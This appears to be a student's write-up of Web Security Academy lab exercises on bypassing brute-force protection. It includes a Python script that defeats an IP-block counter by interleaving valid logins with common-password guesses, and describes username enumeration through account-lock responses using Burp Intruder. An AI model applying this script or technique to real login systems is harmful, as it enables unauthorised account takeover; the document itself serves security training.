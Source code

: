 ```yaml
---
tags: ["brute force", "account locking"]
---
```


## Flawed brute-force protection

It is highly likely that a brute-force attack will involve many failed guesses before the attacker successfully compromises an account. Logically, brute-force protection revolves around trying to make it as tricky as possible to automate the process and slow down the rate at which an attacker can attempt logins. The two most common ways of preventing brute-force attacks are:

- Locking the account that the remote user is trying to access if they make too many failed login attempts
- Blocking the remote user's IP address if they make too many login attempts in quick succession

Both approaches offer varying degrees of protection, but neither is invulnerable, especially if implemented using flawed logic.

For example, you might sometimes find that your IP is blocked if you fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully. This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

In this case, merely including your own login credentials at regular intervals throughout the wordlist is enough to render this defense virtually useless.

## Lab

In this lab we have to do good login one time and then try our brute force creds one time and we can do this in loop with any script!

So i made one python script and added all the passwords in List and checked them one by one!

==> Exploit :

```py
import requests

def goodReq():
	username = "wiener"
	password = "peter"
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"
	data = {
		'username':username,
		'password':password
	}
	r = requests.post(url=url,data=data)
	# print(r.text)
# goodReq()

def brute_force():
	username = "carlos"
	password = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"

	Flag = False
	count = 0
	i = 0
	while (Flag==False):
		if(count % 2 == 0):
			print("Trying bad request")
			r = requests.post(url=url,data={'username':username,'password':password[i]})
			if("Your username is:" in r.text):
				Flag = True
				print("Credentials Found!")
				print("Username: ",username)
				print("Password: ",password[i])
				print(r.text)
				break
			i += 1
			count += 1
		else:
			print("Trying good request")
			count += 1
			goodReq()
brute_force()
```

--> After running this exploit i found the password for `carlos` and solved the lab!

![](Attachments/Pastedimage20220202125348.png)

---

# Account locking

One way in which websites try to prevent brute-forcing is to lock the account if certain suspicious criteria are met, usually a set number of failed login attempts. Just as with normal login errors, responses from the server indicating that an account is locked can also help an attacker to enumerate usernames.

Locking an account offers a certain amount of protection against targeted brute-forcing of a specific account. However, this approach fails to adequately prevent brute-force attacks in which the attacker is just trying to gain access to any random account they can.

For example, the following method can be used to work around this kind of protection:

1.  Establish a list of candidate usernames that are likely to be valid. This could be through username enumeration or simply based on a list of common usernames.
2.  Decide on a very small shortlist of passwords that you think at least one user is likely to have. Crucially, the number of passwords you select must not exceed the number of login attempts allowed. For example, if you have worked out that limit is 3 attempts, you need to pick a maximum of 3 password guesses.
3.  Using a tool such as Burp Intruder, try each of the selected passwords with each of the candidate usernames. This way, you can attempt to brute-force every account without triggering the account lock. You only need a single user to use one of the three passwords in order to compromise an account.

Account locking also fails to protect against credential stuffing attacks. This involves using a massive dictionary of `username:password` pairs, composed of genuine login credentials stolen in data breaches. Credential stuffing relies on the fact that many people reuse the same username and password on multiple websites and, therefore, there is a chance that some of the compromised credentials in the dictionary are also valid on the target website. Account locking does not protect against credential stuffing because each username is only being attempted once. Credential stuffing is particularly dangerous because it can sometimes result in the attacker compromising many different accounts with just a single automated attack.

## Lab: Username enumeration via account lock

--> This website locks the account of a user if the user tries to login after 2-3 attempts so with this functionality or logic we can think that if the user account exists then only the website will lock the user account and that's the logic flow here. we can use this logic for username enumration

So we have provided the username list and password list. I firstly brute forced the username with the given username list and for password i tried the given password list with `cluster bomb` and also i have grepped the string `Invalid username or password` to check that which username is getting blocked

And after some time i found that the user `alabama` don't get the grepped string so that means the account got locked. And now we have one possible username called `alabama`

![](Attachments/Pastedimage20220202140519.png)

--> For password brute force we have to make the difference between requests `3` because the website is blocking us for 3 or more failed login attempts. But after some time i found that if your login is correct then website is displaying nothing.

So i again grepped the `Invalid username or password` and `You have made too many requests` strings and started the attack. And after some time i found that we don't get anything for password `buster` so it might be a correct password!

![](Attachments/Pastedimage20220202144628.png)

--> And after trying that password with the username i solved the lab!
